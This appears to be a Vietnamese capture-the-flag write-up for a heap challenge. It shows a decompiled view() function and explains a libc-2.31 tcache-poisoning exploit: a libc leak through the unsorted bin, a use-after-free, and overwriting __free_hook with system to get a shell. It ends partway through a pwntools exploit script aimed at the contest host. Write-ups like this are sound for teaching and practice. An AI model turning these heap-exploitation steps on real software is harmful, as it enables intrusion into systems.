 ```cs
__int64 view()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("which index?\n> ");
  __isoc99_scanf("%d", &v1);
  getchar();
  if ( v1 >= 0x64 )
  {
    puts("Invalid request");
    return 1LL;
  }
  else
  {
    puts(*((const char **)&arr + (int)v1));
    return 0LL;
  }
}
```

### EXPLOIT

- đầu tiên đây là 1 bài heap ta cần check libc của nó để khai thác tùy biến theo từng version , bài này sử dụng libc-2.31 , 1 phiên bản có tcache 
- các option như ```view``` , ```edit``` không được check nghiêm ngặt nên ta hoàn toàn có thể xem,sửa các chunk đã được free , cộng vào đó là ta cũng có bug ```UAF``` , mình sẽ khai thác bài này bằng ```tcache_poisioning``` 

- trước hết leak libc thì chỉ cần 1 chunk lớn và free nó vào unsorted bin thôi , tiếp theo nữa ta tạo 2 chunk tcache , ta sẽ free() 2 chunk đó : 

trong tcache: 


```cs
A-B
```

- thay đổi fd của A đến free_hook (sẽ không dùng được từ libc 2.35 trở đi) , sau đó malloc() và ghi free_hook thành system -> get_shell

exp:

```cs
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")

context.binary = exe

p = process()
p = remote('chall.ehax.tech', 1925)

def malloc(idx,size,data):
    p.sendlineafter(b'> ',b'1')
    p.sendlineafter(b'> ',f'{idx}'.encode())
    p.sendlineafter(b'> ',f'{size}'.encode())
    p.sendlineafter(b'> ',data)

def free(idx):
    p.sendlineafter(b'> ',b'2')
```